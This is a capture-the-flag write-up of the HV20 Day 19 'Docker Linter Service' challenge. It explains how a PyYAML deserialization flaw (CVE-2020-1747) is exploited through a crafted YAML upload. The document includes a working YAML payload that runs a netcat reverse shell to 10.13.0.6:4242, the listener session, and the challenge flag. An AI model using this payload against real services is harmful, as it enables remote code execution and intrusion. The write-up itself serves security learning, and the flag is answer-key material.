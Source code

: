 [← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)


# Day 19 / HV20.19 Docker Linter Service


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: The Compiler ([@the_compiler](https://twitter.com/the_compiler), 
                        <https://bruhin.software/>)
* Tags:   `#web-security` `#exploitation`
* Level:  Hard

Docker Linter is a useful web application ensuring that your Docker-related
files follow best practices. Unfortunately, there's a security issue in there...

### Requirements

This challenge requires a reverse shell. You can use the provided Web Shell or
the VPN to solve this challenge (see `RESOURCES` on top).

### Resources

* Web Shell v. 2
* Docker Linter Service
* Student VPN instructions



## Solution

Here is a screenshot of the _Docker Linter Service_ …

| ![](screenshot_docker_linter.png) |
|-----------------------------------|

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
As the name implies, different kind of _[Docker]_ files can be uploaded to the
web service in order to [lint] them, meaning statically check their validity.
Posting an arbitrary string like `ladida` instead of an actual _Docker_ file is
sufficient to get a list of the involved tools and libraries in the server …

[Docker]: https://en.wikipedia.org/wiki/Docker_(software)
[lint]: https://en.wikipedia.org/wiki/Lint_(software)

* `Dockerfile`
    * `hadolint`
    * `dockerfile_lint`
    * `dockerlint.js`

* `docker-compose.yml`
    * `Basic syntax check`
    * `yamllint`
    * `docker-compose`

* `.env files`
    * `dotenv-linter`

After a lot of trial and error attacking the python YAML implementation turned
out to be the right way. A [PoC (CVE-2020-1747)] about the attack/vulnerability
is available on the web.

[PoC (CVE-2020-1747)]: https://2130706433.net/blog/pyyaml/

The attack works by exploiting a deserialization vulnerability in the PyYAML
library which allows arbitrary code execution and thus including setting up a
reverse shell.

The payload is constructed according to the [script gist] available on the same
webpage as the PoC and a [cheat sheet kinda resource for reverse shells]\:

[script gist]: https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1
[cheat sheet kinda resource for reverse shells]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('nc 10.13.0.6 4242 -e /bin/sh')"
```

| ![](screenshot_payload.png) |
|-----------------------------|

On the listening end there is a Linux VM connected via a VPN and waiting for
an incoming connection on port 4242. Due to the nature of the reverse shell, it
does not show shell prompts. But type echoing and printing to standard out work
just fine …

```sh
# nc -l -p 4242
echo ""; ls

app.py
bin
dockerfile_lint_rules
flag.txt
linting.py
node_modules
package-lock.json
requirements.txt
static
templates

cat flag.txt
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
```

--------------------------------------------------------------------------------

Flag: `HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}`

[← Day 18](../day18/) / [↑ TOC](../README.md) / [→ Day 20](../day20/)
